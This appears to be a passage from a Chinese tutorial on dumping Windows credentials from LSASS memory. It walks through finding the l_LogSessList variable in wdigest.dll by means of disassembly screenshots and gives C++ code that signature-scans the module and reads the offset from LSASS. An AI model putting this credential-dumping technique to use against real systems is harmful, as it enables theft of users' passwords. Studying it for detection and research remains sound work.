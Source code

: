 和`LocateUnprotectLsassMemoryKeys`函数类似，首先需要定位`l_LogSessList`变量在内存中的位置，然后读取该变量的内容。

在`wdigest.dll`中找到`l_LogSessList`变量：

![alt text](images/locations2.png)

查看对其进行操作的指令：

![alt text](images/xrefs2.png)

定位最后一条 lea 指令：

![alt text](images/l_LogSessList.png)

取该 lea 指令和前几条指令的字节序列用于搜索 lea 指令相对`wdigest.dll`模块基址的偏移：

```cpp
UCHAR keySig[] = { 0x48, 0xFF, 0x15, 0x52, 0x55, 0x01, 0x00,
					0x0F, 0x1F, 0x44, 0x00, 0x00,
					0x48, 0x8B, 0x1D, 0xC6, 0xB9, 0x01, 0x00,
					0x48, 0x8D, 0x0D };

// 搜索Wdigest特征码
logSessListSigOffset = SearchPattern(wdigestBaseAddress, keySig, sizeof keySig);
if (logSessListSigOffset == 0) return;

// 读取4字节偏移
ReadFromLsass(wdigestBaseAddress + logSessListSigOffset + sizeof keySig, &logSessListOffset, sizeof logSessListOffset);
wprintf(L"logSessListOffset = 0x%x\n", logSessListOffset);
```